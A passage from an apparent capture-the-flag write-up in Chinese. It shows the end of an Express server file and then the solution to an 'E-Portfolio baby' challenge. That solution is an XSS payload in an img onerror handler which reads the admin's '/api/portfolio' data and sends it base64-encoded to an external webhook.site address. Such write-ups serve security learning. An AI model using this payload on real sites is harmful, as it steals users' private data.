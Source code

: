 ```
})

app.get('/logout', (req, res) => {
    req.session.destroy()
    res.redirect('/')
})

process.on('SIGINT', function () {
    db.close();
    process.exit();
});

app.listen(PORT, () => {
    console.log('listening to requests on port', PORT)
})
```


## E-Portfolio baby

登入後的頁面

![](/images/2023/05/HkgWrN4.png)

這題需要使用XSS去偷admin的資料，但不是偷cookie，所以這題比較少人解

Payload

```
<img src=x onerror=fetch('/api/portfolio').then(r=&gt;{r.text().then(t=&gt;fetch('https://webhook.site/f25d50d9-9c87-4bce-8177-05a3360c5279/?='+btoa(t)))})>
```
